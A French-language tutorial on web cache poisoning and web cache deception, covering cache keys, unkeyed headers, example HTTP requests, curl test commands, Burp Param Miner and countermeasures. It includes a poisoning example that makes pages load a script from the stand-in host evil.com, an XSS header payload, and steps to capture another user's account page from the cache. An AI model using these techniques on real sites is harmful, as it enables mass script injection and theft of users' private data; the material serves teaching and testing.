

# Web Cache Poisoning et Cache Deception

Deux techniques distinctes exploitant les systèmes de cache web (CDN, proxy, varnish). La confusion entre les deux est fréquente : l'une empoisonne le cache pour servir du contenu malveillant à d'autres utilisateurs, l'autre trompe le cache pour lui faire stocker des données privées.

## Architecture du cache web



**Clé de cache (cache key) :** ce qui identifie une entrée dans le cache. Par défaut : méthode + URL + Host. Les en-têtes non-clés (non-keyed) ne font pas partie de la clé mais influencent la réponse.

## Web Cache Poisoning

### Principe

Un en-tête non-keyed est réfléchi dans la réponse. En manipulant cet en-tête, on empoisonne la cache entry qui sera servie à tous les utilisateurs suivants.

```
Requête de l'attaquant :
GET /page HTTP/1.1
Host: site.com
X-Forwarded-Host: evil.com          ← non-keyed, influencé par l'attaquant
Cache-Buster: unique123             ← pour isoler l'entrée

Réponse origin (vulnérable) :
HTTP/1.1 200 OK
X-Cache: MISS                       ← indique que c'est stocké
<script src="https://evil.com/malicious.js"></script>
              ↑
Le serveur utilise X-Forwarded-Host pour construire des URLs de scripts

→ La réponse empoisonnée est stockée dans le cache
→ Tous les utilisateurs qui accèdent à /page reçoivent le script malveillant
```

### En-têtes non-keyed courants à tester

```
X-Forwarded-Host:         # Utilisé pour reconstruire des URLs absolues
X-Forwarded-Scheme:       # http ou https
X-Forwarded-For:          # IP source (peut être réfléchie)
X-Original-URL:           # Path override (Drupal, Symfony)
X-Rewrite-URL:
X-Host:
Forwarded:                # RFC 7239
X-Forwarded-Proto:
X-Forwarded-Port:
```

### Exemple — XSS via cache poisoning

```
# 1. Identifier un en-tête réfléchi dans la réponse
GET /home HTTP/1.1
Host: site.com
X-Forwarded-Host: PAYLOAD

# Si la réponse contient PAYLOAD → potentiellement exploitable

# 2. Tester un XSS payload
X-Forwarded-Host: "><script>alert(1)</script>

# 3. Vérifier si la réponse est mise en cache (X-Cache: HIT)
# Si oui → tous les visiteurs de /home reçoivent l'XSS

# 4. Pour déclencher sur tous les utilisateurs
# Supprimer le cache-buster → la vraie URL /home est empoisonnée
```

### Fat GET / Request Header Injection

```
# Certains caches ignorent le corps des requêtes GET
# Si le serveur origin lit le corps d'un GET → désynchronisation

GET /api/data HTTP/1.1
Host: site.com
Content-Length: 50

{"injected": "data that origin reads but cache ignores"}
```

### DOM-based cache poisoning

```javascript
// Si l'application lit un paramètre d'URL ou un header et l'écrit dans le DOM
const host = document.location.hostname;
// ou
const lang = new URLSearchParams(window.location.search).get('lang');
document.getElementById('title').innerHTML = lang;  // XSS reflété

// Si ce paramètre fait partie de la cache key → empoisonnement possible
```

## Web Cache Deception

### Principe (inverse du poisoning)

Tromper le cache pour lui faire stocker une page privée (profil utilisateur, informations de compte) en se faisant passer pour une ressource statique.

```
Attaque :
1. L'attaquant piège la victime en visitant :
   https://site.com/account/settings/non-existent.css

2. Le serveur origin retourne les paramètres du compte (il ignore le .css)
   → Répond normalement avec les données personnelles

3. Le cache voit .css dans l'URL → croit que c'est une ressource statique
   → Stocke la réponse avec les données privées

4. L'attaquant visite la même URL :
   https://site.com/account/settings/non-existent.css
   → Le cache sert les données privées de la victime
```

### Conditions nécessaires

```
Condition 1 : Le serveur origin ignore les segments d'URL supplémentaires
  /account/settings/anything → répond comme /account/settings

Condition 2 : Le cache utilise l'extension du fichier pour décider de cacher
  *.css, *.js, *.jpg, *.png → mis en cache

Condition 3 : Les deux voient la même URL (pas de normalisation différente)
```

### Test

```bash
# Tester si l'origin ignore les segments supplémentaires
curl -v "https://site.com/account" -b "session=VOTRE_SESSION"
curl -v "https://site.com/account/fake.css" -b "session=VOTRE_SESSION"

# Si les deux réponses sont identiques (données de compte) → vulnérable

# Vérifier si la seconde est mise en cache
# (X-Cache: HIT sur un second appel)
curl -v "https://site.com/account/fake.css"  # sans cookie cette fois
# Si la réponse contient vos données → cache deception réussie
```

## Différences clés

| | Web Cache Poisoning | Web Cache Deception |
|---|---|---|
| Objectif | Servir du contenu malveillant à d'autres | Voler des données privées d'autres |
| Victime | Tous les utilisateurs qui accèdent à l'URL | L'utilisateur ciblé (via lien piégé) |
| Impact | XSS mass, redirection, credential theft | Fuite de données personnelles |
| Cache entry | Empoisonnée par l'attaquant | Contient les données de la victime |

## Détection avec Param Miner (Burp)

```
Extension Burp : Param Miner
→ Découvre automatiquement les paramètres et en-têtes non-keyed
→ Teste des milliers de combinaisons en arrière-plan

Configuration :
1. Clic droit sur une requête → Extensions → Param Miner
2. "Guess headers" → teste les en-têtes non-keyed
3. "Guess params" → teste les paramètres de requête non-keyed
```

## Contre-mesures

```
Cache Poisoning :
→ Inclure les en-têtes non-keyed dans la cache key si utilisés pour construire la réponse
→ Valider et normaliser tous les en-têtes avant utilisation
→ Utiliser des URLs absolues explicites plutôt que des reconstructions dynamiques

Cache Deception :
→ Normaliser les URLs (strip des segments supplémentaires) au niveau du cache
→ Ne pas mettre en cache les réponses authentifiées ou les marquer private
→ Utiliser Cache-Control: no-store pour les données personnelles

En-têtes de cache pour données sensibles :
Cache-Control: no-store, private
Vary: Cookie  # Cache différent selon le cookie → données isolées par utilisateur
```
